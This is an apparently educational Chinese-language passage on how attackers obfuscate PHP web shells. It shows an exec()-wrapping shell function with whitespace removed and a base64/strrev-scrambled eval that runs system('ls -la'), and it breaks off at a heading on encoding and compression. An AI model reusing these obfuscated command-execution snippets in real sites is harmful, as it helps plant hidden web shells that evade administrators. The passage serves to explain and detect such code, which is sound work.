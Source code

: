 攻击者使用各种模糊技术，以避免被管理员或其他攻击者检测到。他们不断提出新的和更复杂的方法来隐藏他们的代码和绕过安全系统。下面我们将看到一些最常用的技术。


### 空白


通过从代码块中删除空白，它看起来像一个大字符串，使得它更不容易可读，更难以识别脚本的作用。

    
    <code><?php 
    // Whitespace makes things easy to read 
    function myshellexec($cmd){
     global $disablefunc; $result = "";
     if (!empty($cmd)){
     if (is_callable("exec") && !in_array("exec",$disablefunc)) {
     exec($cmd,$result); $result = join("",$result);
     }
     }
     } 
    // Whitespace removed makes things harder to read 
    function myshellexec($cmd) {global $disablefunc;$result = "";
     if(!empty($cmd)) { if (is_callable("exec") and
     !in_array("exec",$disablefunc)){exec($cmd,$result); $result=join(" ",$result);}}} 
    ?>
    </code>




### 加扰


加扰是一种可以有效地与其他人结合使用以帮助web shell未被检测到的技术。它扰乱了代码使它不可读，并利用各种函数，将运行时重建代码。

    
    <code><?php
    // Scrambled
      $k='c3lzdGVtKCdscyAtbGEnKTs=';$c=strrev('(edoced_46esab.""nruter')."'".$k."');";$f=eval($c);eval($f);
    
    // Unscrambled
      // base_64 encoded string -> system('ls -la');
      $k='c3lzdGVtKCdscyAtbGEnKTs=';
      // strrev() reverses a given string:   strrev('(edoced_46esab.""nruter')."'".$k."')
    $c= eval("return base64_decode('c3lzdGVtKCdscyAtbGEnKTs=');");
      // $c = system('ls -la');
      $f=eval($c);
      eval($f);
    </code>




### 编码，压缩和替换技术


Web Shell通常利用其他技术来隐藏他们正在做什么。下面是一些基于PHP的web shell的一些常见功能。

    